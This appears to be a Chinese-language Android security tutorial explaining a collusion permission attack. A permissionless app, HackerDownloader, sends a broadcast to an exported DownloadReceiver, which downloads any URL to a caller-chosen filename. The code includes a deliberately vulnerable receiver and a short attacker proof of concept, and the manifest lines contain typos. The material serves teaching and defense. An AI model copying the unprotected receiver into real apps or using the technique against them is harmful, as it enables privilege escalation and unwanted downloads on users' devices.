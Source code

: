 ## 串谋权限攻击 ##
Android程序中资源的访问包括使用Framework提供的功能与访问其他程序的组件，前者是通过系统提供的权限机制进行控制的，后者是通过自定义权限控制的。正常情况下，没有声明特定的访问权限，就无法访问这些资源。但通过其他程序中可访问的Android组件，就有可能突破这种访问控制，从而提升程序本身的权限，这种权限提升的攻击方式在这称为串谋权限攻击。

![串谋权限攻击示意图](https://cloud.githubusercontent.com/assets/10484766/11139875/7c3829ba-8a0f-11e5-838c-83064d88a724.png)

这里可以模拟一个场景，有一个下载管理程序实例DownloadManager，有一个TextView输入想要下载的文件URL，点击下载按钮即开始下载，下载下来的文件默认保存在SD卡上。当然，该实例拥有下载文件和保存SD卡的权利：

	<uses-permission androidLname="android.permission.WRITE_EXTERNAL_STORAGE/">
	<uses-permission android:name="android.permission.INTERNET">

下载文件的功能是通过接收下载请求广播，然后在下载广播接收者中完成的，对应的广播接收者在AndroidManifest.xml中声明：

	<receiver android:name=".DownloadReceiver">
		<intent-filter>
			<action android:name="com.test.download"></action>
		</intent-filter>
	</receiver>

DownloadReceiver响应Action为"com.test.download"的广播，然后访问Intent指定的URL地址去下载文件，相应的广播响应代码如下：

	public void onReceive(Context context,Intent intent){
		if(intent.getAction().equals("com.test.download")){
			String url = intent.getExtra().getString("url");
			String filename = intent.getExtra().getString("filename");
			Toast.makeText(context,url,Toast.LENGTH_SHORT).show();
			try{
				downloadFile(url,filename);
			}catch(IOException e){
				e.printStackTrace();
			}
		}
	}

从上面代码可以清楚地看到，下载的文件时通过url传递过来而保存的文件名则是通过filename传递。接下来就是我们的攻击程序HackerDownloader，它什么权限都没有，只有一段发送文件下载请求的代码：

	btn.setOnClickListener(new OnClickListener(){
		@override
		public void onClick(){
			Intent intent = new Intent();//创建Intent对象
			intent.setAction("com.test.download");
			intent.putExtra("url","http://********");//要下载文件url地址
			String fileName = "test.txt";
			intent.putExtra("filename",fileName);
			sendBroadcast(intent);
		}
	});

当HackerDownloader点击下载按钮以后，DownloadReceiver收到广播后就会开始下载相对应的文件并保存到指定目录下。至此，一次完美的串谋攻击就完成了。

